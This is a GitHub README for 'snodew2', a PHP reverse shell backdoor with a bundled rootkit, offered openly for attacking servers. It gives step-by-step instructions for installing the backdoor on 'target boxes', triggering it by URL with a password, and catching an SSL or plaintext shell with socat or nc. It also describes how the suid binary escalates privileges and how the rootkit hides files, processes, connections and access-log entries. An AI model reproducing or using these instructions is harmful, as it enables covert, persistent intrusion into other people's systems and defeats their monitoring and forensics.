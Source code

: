 

# snodew2
 * PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection.
 * new iteration of [snodew](https://github.com/mempodippy/snodew) but better.
 * snodew was previously designed to work alongside [vlany](https://github.com/mempodippy/vlany).
   * this is no longer the case as this version comes with its own specialised rootkit.
   * if you don't wish to have rootkit capabilities with snodew2, you can disable installation of the rootkit, so all that is setup is the backdoor itself.
   * but i would have to discourage doing that.
 * when it comes to the backdoor itself, you have 3 possible choices:
   * regular plaintext non-interactive reverse shell.
   * plaintext interactive reverse shell. (socat is required)
   * interactive ssl reverse shell. (socat & ssl is required)

## usage
```
git clone https://github.com/naworkcaj/snodew2.git
cd snodew/
./setup.sh [install dir] [password]
```

### example usage
 * take a look within `setup.sh`. you may want to change the following variables.
   * <b>WWWNAME:</b> to match the target service user's name on the box.
   * <b>SECRET_PORT:</b> to your own port of preference. if you don't; a random number will be used.
   * <b>SNODEW_LOC:</b> somewhat self-explanatory.
     * `snodew.ncat.php` is the original script that came with snodew.
     * `snodew.socat.php` spawn and send the reverse shell to your listener as a psuedo-interactive shell.
     * `snodew.socat.ssl.php` literally the same as above. but with ssl instead of plaintext. (this is the default)
 * if you're sticking with the default, `snodew.socat.ssl.php`, you'll need to use `src/gencert.sh` first on your own box.
   * this will create the necessary files, for `src/listen_socat.sh` on your box & for `setup.sh` to copy & the rootkit too, to hide.
 * after doing `./gencert.sh` (if you're using ssl) & editing your variables to your own preferences, use your own configuration & certificate to install snodew on target boxes.

```
./setup.sh /var/www/html/blog sexlovegod
(or without rootkit capabilities)
NO_ROOTKIT=1 ./setup.sh /var/www/html/blog sexlovegod
```
 * `setup.sh` will show you the name of snodew.php in the location you specified as the installation directory.
 * visit that in your browser. making sure you set your correct password.
   * for example, `http://lol.ok/blog/gjunmf.php?password=sexlovegod`
 * listen for an incoming connection coming from the box you installed snodew on, with an appropriate utility for your setup.
   * `src/listen_socat.sh <-ssl/-plain> <SECRET_PORT>`
   * `nc -vlp <SECRET_PORT>`
   * `http://lol.ok/blog/gjunmf.php?password=sexlovegod&host=urbox`
   * congrats u have a shell

### examples of successful installation & usage (snodew.socat.ssl.php)
<b>result of successful installation:</b><br>
<img src="https://i.imgur.com/DGWnYeY.png">

<b>visiting newly created & hidden php script:</b><br>
<img src="https://i.imgur.com/52ZfXgG.png">

<b>getting the reverse shell from the kitted box:</b><br>
<img src="https://i.imgur.com/BBnvnyl.png">

## general notes
 * setup & installation of snodew is free of any significant dependencies.
   * just gcc, an available web service.
   * & `socat` (with ssl support if you desire)
     * not the case if you use `snodew.ncat.php`

## backdoor notes
 * choice of regular plaintext reverse shell, interactive reverse shell powered by socat; or too the latter but using ssl.
   * use of ssl is encouraged. and is the default.
   * see src/snodew.\*.php
 * trying to access snodew.php through a browser without having 'password' set & correct will display a 404 page.
   * NOT THE SERVER'S 404 PAGE. JUST A 404 PAGE.
 * suid executables can potentially be disabled on the box. most likely & usually not.
 * theoretically, snodew.php could be any kind of PHP file. you'd just have to rearrange some stuff.

## rootkit notes
 * all processes spawned for & by the rootkit are hidden.
   * in the original snodew, i had made a note of the fact that the initial spawning of the suid binary was visible in process listings.
     * this is no longer the case.
   * the original version also used extended attributes to hide regular files, i.e, not processes.
     * this too, is no longer the case. we only using a magic GID.

 * when the rootkit is installed, regular users can't see the PHP file, or the suid binary.
   * snodew determines when the service user can see the PHP file & the suid bin...
   * fundamental factors in deciding what makes the service user worthy of being able to see & access the two files are the following:
     * *you may need to change `WWWNAME` in setup.sh*
     * their UID & GID
     * their home directory
     * their environment variables
     * and their process name
 * during installation of the rootkit, you'll be given a magic variable.
   * you'll only need to use this in very special situations, most likely never. you'll know if or when you need to use it.

 * the rootkit's write() hook breaks write when buf contains the php filename.
   * this is in an effort to prevent access logs @ the php file.

## the rootkit does:
 * hide: backdoor connection information from netstat, ss, and all variants.
   * __only for connections on the secret port.__
 * hide: rootkit location from process maps files.
 * hide: obviously, files & processes spawned for or by the rootkit & snodew's backdoor.
 * evades discovery from various tools.
 * running `./killself` in a backdoor shell will remove the backdoor & rootkit from the box.
 * if one file doesn't exist (deleted??) the rootkit will delete all of the other files created during installation.
